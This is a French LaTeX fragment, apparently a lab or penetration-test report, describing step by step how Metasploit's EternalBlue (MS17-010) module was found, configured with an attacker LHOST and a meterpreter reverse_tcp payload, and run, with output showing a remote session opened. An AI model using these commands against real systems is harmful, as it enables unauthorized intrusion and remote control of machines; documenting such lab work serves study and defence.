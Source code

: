 \documentclass[a4paper,12pt]{report}
\begin{document}
\begin{enumerate}
        
    \item \textbf{Recherche de l'exploit EternalBlue}
    
    Une fois la vulnérabilité confirmée, nous avons cherché un exploit correspondant. La commande suivante a été utilisée :
        \begin{lstlisting}
        msf6 > search exploit eternalblue
        \end{lstlisting}
        Le module d'exploitation \texttt{exploit/windows/smb/ms17\_010\_eternalblue} a été trouvé.
       
    
    \item \textbf{Configurer l'exploit EternalBlue}
    
        Nous avons sélectionné le module d'exploitation pour MS17-010. La commande utilisée est :
        \begin{lstlisting}
        msf6 > use exploit/windows/smb/ms17_010_eternalblue
        \end{lstlisting}
        
         Nous avons ensuite configuré l'adresse de l'attaquant (Kali Linux) avec la commande suivante :
        \begin{lstlisting}
        msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.101
        \end{lstlisting}
        
         Le payload par défaut est \texttt{windows/x64/meterpreter/reverse\_tcp}, qui a été confirmé comme étant correct.
      
    
    \item \textbf{Lancement de l'exploitation}
     Nous avons lancé l'exploitation avec la commande :
        \begin{lstlisting}
        msf6 exploit(windows/smb/ms17_010_eternalblue) > run
        \end{lstlisting}
         Cette commande a exploité la vulnérabilité EternalBlue et a ouvert une session Meterpreter avec la machine cible.
        
        Les messages affichés par Metasploit pendant l'exploitation :
        \begin{quote}
         Started reverse TCP handler on 192.168.1.101:4444 \\
        192.168.45.30:445 - The target is vulnerable. \\
         192.168.45.30:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)! \\
         Meterpreter session 1 opened (192.168.1.101:4444 $\rightarrow$ 192.168.45.30:49217)
        \end{quote}
         La session Meterpreter a été ouverte avec succès.
     

\end{enumerate}
\end{document}
